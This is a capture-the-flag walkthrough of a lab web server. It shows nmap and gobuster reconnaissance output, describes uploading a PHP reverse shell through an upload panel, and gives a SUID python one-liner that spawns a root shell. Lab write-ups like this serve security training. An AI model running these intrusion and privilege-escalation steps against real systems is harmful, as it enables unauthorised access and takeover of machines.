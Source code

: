 
# NMAP

-> Standard Port scan res:

```BASH
└─$ nmap -T5 -A 10.10.242.137 -oN nmapScanStanrds.xml                  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-27 17:15 IST
Warning: 10.10.242.137 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.242.137
Host is up (0.28s latency).
Not shown: 930 closed tcp ports (reset), 68 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   203.83 ms 10.23.0.1
2   203.76 ms 10.10.242.137

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.72 seconds
```

-> All Ports scan res:

```bash 
# Nmap 7.95 scan initiated Fri Jun 27 17:17:19 2025 as: /usr/lib/nmap/nmap --privileged -T5 -p- -oN nmapScanFull.xml 10.10.242.137
Warning: 10.10.242.137 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.242.137
Host is up (0.18s latency).
Not shown: 64700 closed tcp ports (reset), 833 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at Fri Jun 27 17:27:20 2025 -- 1 IP address (1 host up) scanned in 600.57 seconds

```

-> Dirbusting with Gobuster:

```bash
└─$ gobuster dir -u 10.10.242.137 -w /home/pwn3r/hell/SecLists-master/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.242.137
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/pwn3r/hell/SecLists-master/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.242.137/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 311] [--> http://10.10.242.137/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.242.137/panel/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.242.137/uploads/]
Progress: 4750 / 4750 (100.00%)
===============================================================
Finished
===============================================================
```

-> we have `/panel` and `/uploads` dirs that can be used for uploading shell (php(php5 worked here)) and access from uploads subsequently.

> Note: Why PHP shell?, i dunno although Wappalyzer didn't work for server script but its most typical CTF challenge style where they have php shell technique to gain initial hold. Nevertheless we can ask from GPT as we found server atleast.
> ![5.png][./imgs/5.png]


-> `/panel`

![1.png][imgs/1.png]

-> `/uploads`

![2.png][./imgs/2.png]

-> got revere shell

![3.png][./imgs/3.png]

-> user.txt

![4.png][./imgs/4.png]

-> upgrading shell

![7.png][./imgs/7.png]

-> escalating privilege

![9.png][./imgs/9.png]

-> fortunately we have SUID bit set in python(/usr/bin/python), and rest is on GTFOBINS.

![10.png][./imgs/10.png]

![11.png][./imgs/11.png]

-> Payload: `/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

![12.png][./imgs/12.png]

-> root flag

![8.png][./imgs/8.png]



